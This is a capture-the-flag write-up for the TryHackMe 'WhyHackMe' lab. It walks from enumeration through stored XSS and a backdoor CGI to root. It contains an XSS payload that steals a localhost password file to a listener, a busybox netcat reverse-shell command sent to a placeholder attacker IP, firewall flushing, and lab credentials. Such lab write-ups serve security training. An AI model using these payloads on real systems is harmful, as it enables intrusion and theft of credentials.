






# WhyHackMe - TryHackMe Writeup

[](https://tryhackme.com/room/whyhackme)
[](#)

> Room Link → [WhyHackMe](https://tryhackme.com/room/whyhackme)

---

## Table of Contents

- [Enumeration](#enumeration)
  - [Port Scanning](#port-scanning)
  - [FTP Enumeration](#ftp-enumeration)
  - [Web Directory Scanning](#web-directory-scanning)
- [Initial Access](#initial-access)
  - [Stored XSS & Credential Theft](#stored-xss--credential-theft)
  - [SSH Login & User Flag](#ssh-login--user-flag)
- [Privilege Escalation](#privilege-escalation)
  - [Local Enumeration](#local-enumeration)
  - [PCAP Decryption via SSL Key](#pcap-decryption-via-ssl-key)
  - [Unblocking Traffic via iptables](#unblocking-traffic-via-iptables)
  - [Backdoor Exploitation & Root Flag](#backdoor-exploitation--root-flag)

---

## Enumeration

### Port Scanning

As always, let us first complete a port scan on the target IP. I'll use `rustscan` for this, which is faster than `nmap` and can also run `nmap` scripts:

> ```bash
> rustscan -a 10.49.172.134 -- -sCV -o rustscan
> ```

And got the following result.

```bash
Open 10.49.172.134:21
Open 10.49.172.134:22
Open 10.49.172.134:80

....

PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 62 vsftpd 3.0.3
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 192.168.129.182
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             318 Mar 14  2023 update.txt
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 47:71:2b:90:7d:89:b8:e9:b4:6a:76:c1:50:49:43:cf (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDVPKwhXf+lo95g0TZQuu+g53eAlA0tuGcD2eIcVNBuxuq46t6mjnkJsCgUX80RB2wWF92OOuHjETDTduiL9QaD2E/hPyQ6SwGsL/p+JQtAXGAHIN+pea9LmT3DO+/L3RTqB1VxHP/opKn4ZsS1SfAHMjfmNdNYALnhx2rgFOGlTwgZHvgtUbSUFnUObYzUgSOIOPICnLoQ9MRcjoJEXa+4Fm7HDjo083hzw5gI+VwJK/P25zNvD1udtx3YII+cnOoYH+lT2h/gPcJKarMxDCEtV+3ObVmE+6oaCPx+eosZ+45YuUoAjNjE/U/KAWIE+Y0Xav87hQ/3ln4bzB8N5WV41/WC5zqIfFzuY+ewx6Q6u6t7ijxZ+AE2sayFIqIgmXKWKq3NM9fgLgUooRpBRANDmlb9xI1hzKobeMPOtDkaZ+rIUxOLtUMIkzmdRAIElz3zlxBD+HAqseFrmXKKvLtL6JllEqtEZShSENNZ5Rbh3nBY4gdiPliolwJkrOVNdhE=
|   256 cb:29:97:dc:fd:85:d9:ea:f8:84:98:0b:66:10:5e:6f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFynIMOUWPOdqgGO/AVP9xcS/88z57e0DzGjPCTc6OReLmXrB/egND7VnoNYnNlLYtGUILQ1qoTrL7hC+g38pxc=
|   256 12:3f:38:92:a7:ba:7f:da:a7:18:4f:0d:ff:56:c1:1f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKTv0OsWH1pAq3F/Gpj1LZuPXHZZevzt2sgeMLwWUCRt
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Welcome!!
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Thus, we know that the target IP has three open ports:

- `21` - FTP
- `22` - SSH
- `80` - HTTP

### FTP Enumeration

First, let's try connecting to FTP using anonymous login (`anonymous:anonymous` or default credentials). We are able to access the FTP server and list the files using `ls`:

```bash
ftp> ls
229 Entering Extended Passive Mode (|||45624|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             318 Mar 14  2023 update.txt
226 Directory send OK.
```

Let's download this file to our system and check its contents:

```bash
ftp> get update.txt
local: update.txt remote: update.txt
229 Entering Extended Passive Mode (|||60222|)
150 Opening BINARY mode data connection for update.txt (318 bytes).
100% |***************************************************************************************************************************************************|   318        9.03 KiB/s    00:00 ETA
226 Transfer complete.
318 bytes received in 00:00 (3.04 KiB/s)
ftp> exit
221 Goodbye.

❯ cat update.txt
Hey I just removed the old user mike because that account was compromised and for any of you who wants the creds of new account visit 127.0.0.1/dir/pass.txt and don't worry this file is only accessible by localhost(127.0.0.1), so nobody else can view it except me or people with access to the common account.
- admin
```

The `update.txt` file states that `/dir/pass.txt` is only accessible via `localhost` (127.0.0.1). Next, let's check the HTTP web server on port 80.

### Web Directory Scanning

When visiting the HTTP website, we are greeted with the following home page:


The `blog.php` page contains a link to a login page:



Since we do not have any valid credentials yet, running a directory scan using `gobuster` is a good next step:

> ```bash
> gobuster dir -u http://whyhackme.thm -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -x txt,html,js,php,bak,old -t 80
> ```

But the result where not much of any use, **Except `register.php`**, results:

```bash
assets               (Status: 301) [Size: 315] [--> http://whyhackme.thm/assets/]
blog.php             (Status: 200) [Size: 3102]
config.php           (Status: 200) [Size: 0]
index.php            (Status: 200) [Size: 563]
index.php            (Status: 200) [Size: 563]
login.php            (Status: 200) [Size: 523]
logout.php           (Status: 302) [Size: 0] [--> login.php]
register.php         (Status: 200) [Size: 643]
```

---

## Initial Access

### Stored XSS & Credential Theft

On `register.php`, we can register a new user account. I registered a user and logged into the portal:




At first, I logged in using standard credentials, but there wasn't much functionality available for regular users except commenting on blog posts.

However, notice the note posted by the admin on the blog:

```plain
## Name: admin
Comment: Hey people, I will be monitoring your comments so please be safe and civil.
```

Since the admin is actively monitoring comments, we can test Stored XSS during user registration by supplying a payload in the `username` field:

- `username`: `<script>fetch('http://127.0.0.1/dir/pass.txt').then(r=>r.text()).then(t=>fetch('http://YOUR_IP:4444/?data='+btoa(t)))</script>`
- `password`: `any`

If the admin views the page where usernames or comments are rendered, our JavaScript code will execute in their session, fetch `/dir/pass.txt` via `localhost` (`127.0.0.1`), Base64-encode the contents, and send them back to our listener on port `4444`.

We set up a netcat listener and waited:

```bash
❯ nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.129.182] from (UNKNOWN) [10.49.172.134] 38438
GET /?data=amFjazpXaHlJc015UGFzc3dvcmRTb1N0cm9uZ0lESwo= HTTP/1.1
Host: 192.168.129.182:4444
Connection: keep-alive
Origin: http://127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/71.0.3542.0 Safari/537.36
Accept: */*
Referer: http://127.0.0.1/blog.php
Accept-Encoding: gzip, deflate
```

Decoding the Base64 string (`amFjazpXaHlJc015UGFzc3dvcmRTb1N0cm9uZ0lESwo=`):

```plain
jack:WhyIsMyPasswordSoStrongIDK
```

HEHE!! tried the above creds on SSH login and got the shell as jack!

### SSH Login & User Flag

We can now log into SSH as user `jack` using these credentials:

```bash
❯ ssh jack@whyhackme.thm
Last login: Mon Jan 29 13:44:19 2024
jack@ubuntu:~$ id
uid=1001(jack) gid=1001(jack) groups=1001(jack)
jack@ubuntu:~$
```

jack has one file named `user.txt` with its content as:

```bash
jack@ubuntu:~$ cat user.txt
1ca4eb201787acbfcf9e70fca87b866a
```

And we got our first flag (user flag):


---

## Privilege Escalation

### Local Enumeration

Now we proceed with Privilege Escalation to root.

First, checking `sudo -l`:

```bash
jack@ubuntu:~$ sudo -l
[sudo] password for jack:
Matching Defaults entries for jack on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jack may run the following commands on ubuntu:
    (ALL : ALL) /usr/sbin/iptables
jack@ubuntu:~$
```

`jack` can run `/usr/sbin/iptables` as root.

After digging I found two files in `/opt`:

```bash
jack@ubuntu:/opt$ ls
capture.pcap  urgent.txt
```

Contents of `urgent.txt`:

```plain
Hey guys, after the hack some files have been placed in /usr/lib/cgi-bin/ and when I try to remove them, they wont, even though I am root. Please go through the pcap file in /opt and help me fix the server. And I temporarily blocked the attackers access to the backdoor by using iptables rules. The cleanup of the server is still incomplete I need to start by deleting these files first.
```

And we cannot list any files from `/usr/lib/cgi-bin/`

```bash
jack@ubuntu:/opt$ ls -lah /usr/lib/cgi-bin/
ls: cannot open directory '/usr/lib/cgi-bin/': Permission denied
```

So let's get the `pcap` file and analyze it using either `wireshark` or `tshark`.

### PCAP Decryption via SSL Key

> [!NOTE]
> To get the file from jacks system to ours, We can make use of
> `python3 -m http.server 8888` on jacks system and get the file via `wget` like shown below



Since the traffic in `capture.pcap` is encrypted over HTTPS/TLS, we need the SSL private key to decrypt it. Since Apache is used as the web server, we look in `/etc/apache2/sites-enabled/000-default.conf`:

```apache
SSLCertificateKeyFile /etc/apache2/certs/apache.key
```

Thus the `apache.key` is our file through which we will decrypt the `capture.pcap` file.

Same as before we'll make use of `python3 http.server` and `wget` to get the file on our system.

Now to make use of the file in `wireshark` follow the given steps:

1. Open the `pcap`.
2. Go to **Edit > Preferences > Protocols > TLS** (or SSL in older versions).
3. Click the **RSA keys list > Edit > +**.
4. Fill in:
   - IP address: the target’s IP (or leave blank / 0.0.0.0)
   - Port: `41312` (the port the traffic is on)
   - Protocol: `http`
   - Key File: browse to the `apache.key` you just saved
5. Click OK / Apply.

We can verify the blocked backdoor port on the host via `sudo /usr/sbin/iptables -L -n --line-numbers`:

```bash
num  target     prot opt source               destination
1    DROP       tcp  --  0.0.0.0/0            0.0.0.0/0            tcp dpt:41312
```

And now we can filter by `http` and see the results:


We can see interesting request sent by the attacker:

```
/cgi-bin/5UP3r53Cr37.py?key=48pfPHUrj4pmHzrC&iv=VZukhsCo8TlTXORN&cmd=id
```

Now we know that the hackers who hacked jacks system previously got a command execution via the above file `5UP3r53Cr37.py` via the given key and then the command we want to execute let's try that with victims IP and port : `41312`....

But for that we first need to allow all or simply flush any blocking rule for the `41312` port as there are `DROP` on the port

```bash
num  target     prot opt source               destination
1    DROP       tcp  --  0.0.0.0/0            0.0.0.0/0            tcp dpt:41312
```

```bash
jack@ubuntu:/etc/apache2/certs$ sudo iptables -F
[sudo] password for jack:
jack@ubuntu:/etc/apache2/certs$ sudo /usr/sbin/iptables -L -n --line-numbers
Chain INPUT (policy ACCEPT)
num  target     prot opt source               destination

Chain FORWARD (policy ACCEPT)
num  target     prot opt source               destination

Chain OUTPUT (policy ACCEPT)
num  target     prot opt source               destination
jack@ubuntu:/etc/apache2/certs$
```

Running `sudo iptables -F` flushes all firewall rules.

### Backdoor Exploitation & Root Flag

Now we can test remote command execution against the backdoor:



> ```
> https://whyhackme.thm:41312/cgi-bin/5UP3r53Cr37.py?key=48pfPHUrj4pmHzrC&iv=VZukhsCo8TlTXORN&cmd=id
> ```

We can see we got the result for `id` now we'll try to get shell via `busybox nc`

```
busybox%20nc%20[ATTACKER_IP]%204444%20-e%20bash
```

> ```
> https://whyhackme.thm:41312/cgi-bin/5UP3r53Cr37.py?key=48pfPHUrj4pmHzrC&iv=VZukhsCo8TlTXORN&cmd=busybox%20nc%20[ATTACKER_IP]%204444%20-e%20bash
> ```

and we got the shell

```bash
www-data@ubuntu:/usr/lib/cgi-bin$ id
id
uid=33(www-data) gid=1003(h4ck3d) groups=1003(h4ck3d)
www-data@ubuntu:/usr/lib/cgi-bin$
```

And woohooo! we already have all the root rights

```bash
www-data@ubuntu:/usr/lib/cgi-bin$ sudo -l
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: ALL
```

`www-data` has `NOPASSWD: ALL` sudo privileges! Running `sudo bash` gives us root access:

```bash
www-data@ubuntu:/usr/lib/cgi-bin$ sudo bash
sudo bash
root@ubuntu:/usr/lib/cgi-bin# whoami
whoami
root
root@ubuntu:/usr/lib/cgi-bin#
```

Finally, we retrieve the root flag:

```bash
root@ubuntu:~# cat root.txt
4dbe2259ae53846441cc2479b5475c72
```


---

Room solved!
